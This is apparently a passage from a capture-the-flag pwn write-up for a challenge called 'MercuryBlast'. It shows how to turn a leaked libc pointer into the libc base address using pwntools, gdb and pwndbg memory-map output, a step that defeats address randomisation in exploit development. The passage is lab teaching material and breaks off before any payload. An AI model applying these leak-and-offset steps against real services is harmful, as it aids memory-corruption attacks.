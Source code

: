 ```py
leak = u64(leak)
```
With the libc address we leaked, how can we get the libc base address? 
Here is the trick
1. address leaked and parsed, we see it: `0x7fac1e319de0`
2. use `gdb.attach()` to open `gdb` 
3. type the `vmmap` command
4. Look for the runtime libc base
```
    0x7fac1e12b000     0x7fac1e12d000 rw-p     2000      0 [anon_7fac1e12b]
    0x7fac1e12d000     0x7fac1e14f000 r--p    22000      0 /home/kali/Desktop/CTF/MercuryBlast/libc-2.31.so
    0x7fac1e14f000     0x7fac1e2c7000 r-xp   178000  22000 /home/kali/Desktop/CTF/MercuryBlast/libc-2.31.so
    0x7fac1e2c7000     0x7fac1e315000 r--p    4e000 19a000 /home/kali/Desktop/CTF/MercuryBlast/libc-2.31.so
    0x7fac1e315000     0x7fac1e319000 r--p     4000 1e7000 /home/kali/Desktop/CTF/MercuryBlast/libc-2.31.so
    0x7fac1e319000     0x7fac1e31b000 rw-p     2000 1eb000 /home/kali/Desktop/CTF/MercuryBlast/libc-2.31.so
```
which is `0x7fac1e12d000` here 
5. copy both addresses and subtract them 
6. We can even use the pwndbg "calculator" to subtract
```
pwndbg> x/gx 0x7fac1e319de0 - 0x7fac1e12d000
0x1ecde0:	Cannot access memory at address 0x1ecde0
```
7. Boom! We get the fixed offset
8. Now 
```py
libc.address =  leak - 0x1ecde0
```
gets us the actual libc address


to be continued:
